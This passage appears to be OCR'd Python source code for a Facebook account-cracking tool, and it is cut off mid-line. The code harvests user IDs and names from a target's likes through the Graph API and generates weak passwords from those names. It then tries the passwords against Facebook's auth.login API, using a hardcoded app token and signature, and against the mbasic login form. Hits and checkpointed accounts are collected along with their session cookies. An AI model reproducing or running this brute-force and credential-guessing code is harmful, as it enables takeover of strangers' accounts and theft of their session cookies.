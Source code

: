 _req_get_("https://graph.facebook.com/%s?access_token=%s"%(_target_dev_,_tok_dev_))         _jso_tar_ = _js_lo_(_req_tar_.text)         _name_    = _jso_tar_['name']         _ahmar_cici_('%s[%s•%s] %sNama : %s%s'%(_U_,_P_,_U_,_P_,_U_,_name_))     except:         _ahmar_cici_('%s[%s!%s] %sToken Invalid / ID NOT FOUND'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     try:         _req_fl_ = _req_get_("https://graph.facebook.com/%s/likes?limit=1000000&amp;access_token=%s"%(_target_dev_,_tok_dev_))         _lo_dev_ = _js_lo_(_req_fl_.text)         _jso_file_ = (_jso_tar_["first_name"]+".json").replace(" ","_")         _jso_exec_ = _ahmar_ahmar_(_jso_file_,"w")         for _Ahmar_Cici_Forever_ in _lo_dev_["data"]:             try:                 _id_tampung_.append(_Ahmar_Cici_Forever_["id"]+"•"+_Ahamr_Cici_Forever_["name"])                 _jso_exec_.write(_Ahmar_Cici_Forever_["id"]+"•"+_Ahmar_Cici_Forever_["name"]+"\n")             except:continue         _jso_exec_.close()         _ahmar_cici_('%s[%s•%s] %sTotal ID : %s%s'%(_U_,_P_,_U_,_P_,_U_,len(_id_tampung_)))     except:         _ahmar_cici_('%s[%s!%s] %sToken Invalid / ID NOT FOUND'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     return _crack_dev_(_jso_file_)  ### Generate Password def _pass_list_(_cici_):     _ahmar_=[]     for i in _cici_.split(" "):         if len(i)&lt;3:             continue         else:             i=i.lower()             if len(i)==3 or len(i)==4 or len(i)==5:                 _ahmar_.append(i+"123")                 _ahmar_.append(i+"12345")             else:                 _ahmar_.append(i)                 _ahmar_.append(i+"123")                 _ahmar_.append(i+"12345")     _ahmar_.append(_cici_.lower())     _ahmar_.append("pakistan")     _ahmar_.append("123456789")     _ahmar_.append("123456")     return _ahmar_  ### Logger Crack def log_api(em,pas,hosts):     ua = open('ugent.txt','r').read()     r = requests.Session()     header = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)),         "x-fb-sim-hni": str(random.randint(20000, 40000)),         "x-fb-net-hni": str(random.randint(20000, 40000)),         "x-fb-connection-quality": "EXCELLENT",         "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",         "user-agent": ua,         "content-type": "application/x-www-form-urlencoded",         "x-fb-http-engine": "Liger"}     param = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',          'format': 'json',          'sdk_version': '2',          'email': em,          'locale': 'en_US',          'password': pas,          'sdk': 'ios',          'generate_session_cookies': '1',          'sig':'3f555f99fb61fcd7aa0c44f58f522ef6'}     api = 'https://b-api.facebook.com/method/auth.login'     response = r.get(api, params=param, headers=header)     if 'session_key' in response.text and 'EAAA' in response.text:         return {"status":"success","email":em,"pass":pas}     elif 'www.facebook.com' in response.json()['error_msg']:         return {"status":"cp","email":em,"pass":pas}     else:return {"status":"error","email":em,"pass":pas} def log_mbasic(em,pas,hosts):     ua = open('ugent.txt','r').read()     r = requests.Session()     r.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})     p = r.get("https://mbasic.facebook.com/")     b = r.post("https://mbasic.facebook.com/login.php", data={"email": em, "pass": pas, "login": "submit"})     _raw_cookies_ = (";").join([ "%s=%s" % (key, value) for key, value in r.cookies.get_dict().items() ])     if "c_user" in r.cookies.get_dict().keys():         return {"status":"success","email":em,"pass":pas,"cookies":_raw_cookies_}     elif "checkpoint" in r.cookies.get_dict().keys():         return {"status":"cp","email":em,"pass":pas,"cookies":_raw_cookies_}     else:return {"status":"error","email":em,"pass":pas} def koki(_cookies_):     samp_  = _cookies_.split(';')     _cooked_cookies_ = ('%s;%s;%s;%s;%s'%(samp_[2],samp_[4],samp_[0],samp_[3],samp_[1]))     return _cooked_cookies_  ### Crack Proccess class _crack_dev_:     def __init__(self,files):         self._Ahmar_jan_Cici_ = '__My_Love__'+_oscylopsce_+_escylipsce_+_ascylapsci_+'__Forever__'         self.ada = []         self.cp = []         self.ko = 0         _ahmar_cici_('\n%s[%s•%s] %sCrack With Default/Manual Password [d/m]'%(_U_,_P_,_U_,_P_))         while True:             f = _cici_ahmar_('%s[%s•%s] %sChoose : '%(_U_,_P_,_U_,_P_))             if f=="":                 _ahmar_cici_('%s[%s!%s] %sWrong Input Bro'%(_M_,_P_,_M_,_P_))                 time.sleep(2)                 _menu_dev_(self._Ahmar_jan_Cici_)             elif f in ['m','M','2','02','002']:                 try:                     while True:                         try:                             self.apk = files                             self.fs = _ahmar_ahmar_(self.apk).read().splitlines()                             break                         except:                             _ahmar_cici_('%s[%s!%s] %sDump File Not Detected'%(_M_,_P_,_M_,_P_))                             time.sleep(2)                             _menu_dev_(self._Ahmar_jan_Cici_)                     self.fl = []                     for i in self.fs:                         try:                             self.fl.append({"id":i.split("•")[0]})                         except:continue                 except Exception as e:                     _ahmar_cici_('%s[%s!%s] %sDump File not Detected'%(_M_,_P_,_M_,_P_))                     time.sleep(2)                     _menu_dev_(self._Ahmar_jan_Cici_)                 _ahmar_cici_('%s[%s•%s]
